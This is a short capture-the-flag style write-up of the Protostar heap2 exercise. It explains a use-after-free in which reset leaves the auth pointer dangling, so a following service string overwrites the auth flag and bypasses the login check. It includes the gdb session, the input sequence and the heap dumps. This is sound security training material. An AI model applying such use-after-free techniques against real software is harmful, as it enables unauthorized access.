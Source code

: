 **Heap2**



After playing around with the commands in gdb, I saw reset doesn't zero out the pointer to auth. That made me realize we can call auth, then reset to free the memory and call service to write over the auth integer.


**Solving the Challenge**

Setting a breakpoint to view the heap.

```diff
$ gdb heap2
$ disas main
$ b *0x0804899e
```


The exploit.

```diff
(gdb) r
Starting program: /opt/protostar/bin/heap2 
[ auth = (nil), service = (nil) ]
auth TEMP

Breakpoint 1, 0x0804899e in main (argc=1, argv=0xbffffee4) at heap2/heap2.c:24
24	heap2/heap2.c: No such file or directory.
	in heap2/heap2.c
(gdb) c
Continuing.
[ auth = 0x804c008, service = (nil) ]
csdcds

Breakpoint 1, 0x0804899e in main (argc=1, argv=0xbffffee4) at heap2/heap2.c:24
24	in heap2/heap2.c
(gdb) c
Continuing.
[ auth = 0x804c008, service = (nil) ]
reset

Breakpoint 1, 0x0804899e in main (argc=1, argv=0xbffffee4) at heap2/heap2.c:24
24	in heap2/heap2.c
(gdb) c
Continuing.
[ auth = 0x804c008, service = (nil) ]
service AAAABBBBCCCCDDDDEEEEFFFF

Breakpoint 1, 0x0804899e in main (argc=1, argv=0xbffffee4) at heap2/heap2.c:24
24	in heap2/heap2.c

(gdb) c
Continuing.
[ auth = 0x804c008, service = 0x804c028 ]
login

Breakpoint 1, 0x0804899e in main (argc=1, argv=0xbffffee4) at heap2/heap2.c:24
24	in heap2/heap2.c
(gdb) c
Continuing.
you have logged in already!
[ auth = 0x804c008, service = 0x804c028 ]

```


**Heap**

After the auth:

```diff
(gdb) x/30x 0x804c008
0x804c008:	0x504d4554	0x0000000a	0x00000000	0x00000ff1
0x804c018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c078:	0x00000000	0x00000000
```

After the service:

```diff
(gdb) x/30x 0x804c008
0x804c008:	0x00000000	0x0000000a	0x00000000	0x00000021
0x804c018:	0x41414120	0x42424241	0x43434342	0x44444443
0x804c028:	0x45454544	0x46464645	0x00000a46	0x00000fd1
0x804c038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c078:	0x00000000	0x00000000
```